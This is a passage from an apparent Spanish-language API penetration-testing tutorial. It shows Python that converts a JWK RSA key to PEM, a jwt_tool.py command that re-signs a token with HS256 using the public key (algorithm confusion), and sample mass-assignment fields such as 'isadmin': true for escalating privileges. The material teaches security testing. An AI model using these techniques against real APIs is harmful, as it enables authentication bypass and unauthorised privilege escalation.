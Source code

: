 ```python
    if key["kty"] == "RSA":
        e = base64.urlsafe_b64decode(key["e"] + '==')
        n = base64.urlsafe_b64decode(key["n"] + '==')

        e_long = int.from_bytes(e, byteorder='big')
        n_long = int.from_bytes(n, byteorder='big')

        public_numbers = RSAPublicNumbers(e_long, n_long)
        public_key = public_numbers.public_key(default_backend())

        pem = public_key.public_bytes(
            encoding=serialization.Encoding.PEM,
            format=serialization.PublicFormat.SubjectPublicKeyInfo
        )

        print(pem.decode())
   
```

Finalmente, se utiliza ```jwt_tool.py``` para manipular un token JWT, especificando un algoritmo (HS256) y una clave pública. Esta herramienta puede ser utilizada para probar la seguridad de los tokens JWT y explorar posibles vulnerabilidades. Dependiendo de las opciones adicionales y el contexto, esta manipulación puede variar desde simplemente decodificar y visualizar el token hasta intentar firmar el token con una clave pública específica (lo cual sería inusual con HS256, ya que normalmente utiliza una clave secreta).

```bash
┌─[root@kali]─[/home/user/api]
└──╼ ./jwt_tool.py eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ2dWxuQGJydXRlLmNvbSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjg3MjMzNzIwLCJleHAiOjE2ODc4Mzg1MjB9.hdNMJ_TMh0F2Iawe5GT1fbniniPc-jV2q6umvDSa8fTC5TMNMzO-X9xIy6SBWU3gWaiLidGcJHixKLUgFOpPMvk0DzIVMQZNWjfp_w80nueVBnnav6X8vbHiWDdUKOTWogYDlZ5AJufgeLiQVQcJ-usTpdAH2u9TXRhW6HNKhflDxO5PyUsC3fYObxJl0xyR7L9jsuNr7gPkozk9oY52otTu3aCru8vBQM_D7B7CtBOFRTztxuZHy8z-dI6MSU2GdIF8Ko03EgBmRW-mAl_zFLr4dF2uAJL_LZUK1FfBtIgYbfqriK10ftOSNSiTvko50_5QsN1zib6E6Huthq2NUQ -S hs256 -k /home/nptg/Documents/API/public.pem              
```

### Mass Assignment

La vulnerabilidad de asignación masiva ocurre cuando una aplicación web asigna automáticamente valores de usuario a propiedades o variables sin una adecuada filtración o verificación. Este tipo de vulnerabilidad puede ser explotada por un atacante para modificar datos críticos o ganar acceso no autorizado.

Un ataque común de asignación masiva implica la inyección de parámetros inesperados en solicitudes, especialmente durante procesos como el registro de cuentas. Por ejemplo, un atacante podría agregar campos adicionales en una solicitud de registro, como:

```
"isadmin": true,
"isadmin":"true",
"admin": 1,
"admin": true, 
"role": admin,
```
